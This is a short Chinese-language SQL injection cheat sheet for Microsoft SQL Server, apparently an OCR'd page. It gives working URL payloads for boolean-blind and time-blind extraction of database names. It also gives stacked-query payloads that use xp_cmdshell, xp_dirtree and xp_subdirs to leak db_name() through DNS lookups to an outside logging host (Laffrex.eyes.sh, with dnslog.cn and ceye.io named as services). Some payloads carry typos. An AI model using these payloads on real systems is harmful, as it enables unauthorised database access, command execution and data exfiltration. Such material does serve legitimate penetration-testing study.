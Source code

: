 ****

#### 布尔盲注

```sql
#获取数据库名 --> n表示第几个字符,m表示ascii
?id=1 and (ascii(substring((select top 1 name from sys.sysdatabases),n,1),1,1)=m) --+
```

****

#### 时间盲注(waitfor delay 0:0:5)

```sql
# n表示第几个字符,m表示ascii
?id=1 if(ascii(substring((select top 1 name from sys.sysdatabases),n,1))=m) waitfor delay 0:0:5 --+
```

****

#### 数据外带

> `dnslog.cn` `ceye.io`

- 原理:
  - 利用`xp_cmdshell`扩展存储过程指定ping dnslog平台命令带出数据
  - 利用`xp_cmdshell,xp_dirtree,xp_fileexist`使用unc路径判断文件发起请求带出数据
- `DNS数据外带`

```sql
declare @a varchar(8000);
set @a=db_name(); #将sql语句绑定到变量上
exec('master..xp_cmdshell "ping.exe '+@a+'.Laffrex.exys.sh -n 1"') --+
 or 
exec('master..xp_cmdshell "ping.exe '%2b@a%2b'.Laffrex.eyes.sh -n 1"')--+
```

- 方式

  - 存在`堆叠注入`数据外带

  - mysql堆叠注入函数`mysqli_multi_query()`

  - mmsql外带利用`扩展存储过程`

    - ```sql
      #xp_cmdshell执行系统命令
      ?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "ping.exe '%2b@a%2b'.Laffrex.eyes.sh -n 1"') --+
      ```

    - ```sql
      #xp_subdirs查看路径下的目录
      ?id=1';declare @a varchar(8000);set@a=db_name();exec('master..xp_subdirs "//''%2b@a%b''.Laffrex.eyes.sh\a"') --+
      ```

    - ```sql
      #xp_dirtree查询路径下的所有文件和目录
      ?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_dirtree "//''%2b@a%b''.Laffrex.eyes.sh\\a"') --+
      ```

